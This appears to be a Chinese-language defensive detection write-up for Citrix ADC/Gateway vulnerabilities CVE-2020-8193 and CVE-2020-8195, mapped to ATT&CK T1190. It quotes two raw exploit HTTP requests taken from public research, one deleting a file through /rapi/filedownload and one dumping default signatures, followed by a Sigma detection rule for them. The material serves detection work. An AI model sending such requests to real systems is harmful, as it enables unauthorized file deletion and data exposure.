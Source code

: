 # T1190-CVE-2020-8193/CVE-2020-8195

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“ 利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Citrix Systems Citrix Application Delivery Controller（ADC）等都是美国思杰系统（Citrix Systems）公司的产品。Citrix Application Delivery Controller是一款应用交付控制器。Citrix Systems Gateway（Citrix Systems NetScaler Gateway）是一套安全的远程接入解决方案。Citrix System SDWAN WAN-OP是一款SD-WAN（虚拟软件定义的广域网）设备。 Citrix Systems Citrix ADC、Citrix Gateway和Citrix SDWAN WAN-OP中存在安全漏洞。攻击者可利用该漏洞绕过权限限制。

## 检测日志

HTTP.log

## 测试复现

漏洞利用方式建议参考：

Citrix Systems产品安全漏洞 CVE-2020-8193, CVE-2020-8195 and CVE-2020-8196 poc

<https://www.cnblogs.com/potatsoSec/p/13281577.html>

Citrix安全研究历险记

<https://blog.unauthorizedaccess.nl/2020/07/07/adventures-in-citrix-security-research.html>

## 测试留痕

暂无实测，截取部分公开资料内容作为留痕数据。

### 删除文件

```yml
POST /rapi/filedownload?filter=remove:1,path:%2ftmp%2ftest HTTP/1.1 
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
rand_key: 2061490565.1580290269373855
DNT: 1
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=05afba59ef8e0e35933f3bc266941337
Content-Type: application/xml
Content-Length: 31

<clipermission></clipermission>
```

以上内容截取自<https://www.cnblogs.com/potatsoSec/p/13281577.html>

### 获取默认所有签名

```yml
POST /pcidss/report?type=all_signatures&sid=254&username=nsroot&profile_name=default&set=0&sig_name=_default_signature_&sig_start_no=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

以上内容截取自<https://blog.unauthorizedaccess.nl/2020/07/07/adventures-in-citrix-security-research.html>

## 检测规则/思路

建议使用HTTP流量+安全设备进行检测分析，研判攻击是否成功。

```yml
title: 检测可疑的CVE-2020-8193/CVE-2020-8195
references:
    - https://www.cnblogs.com/potatsoSec/p/13281577.html
    - https://research.nccgroup.com/2020/07/10/rift-citrix-adc-vulnerabilities-cve-2020-8193-cve-2020-8195-and-cve-2020-8196-intelligence/
status: experimental
date: 2020/07/10
tags:
    - attack.initial_access
    - attack.t1190
logsource:
    category: webserver
detection:
    selection1:
        c-uri|contains: 
            - '/rapi/filedownload?filter=path:%2F' #删除文件时POST请求，URL路径包含的字段。
    selection2:
        c-uri|contains|all:
            - '/pcidss/report' #获取所有默认签名时POST请求URL内包含的字段
            - 'type=all_signatures'
            - 'sig_name=_default_signature_'
    condition: 1 of them
fields:
    - client_ip
    - vhost
    - url
    - response
falsepositives:
    - Unknown
level: critical
```

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>
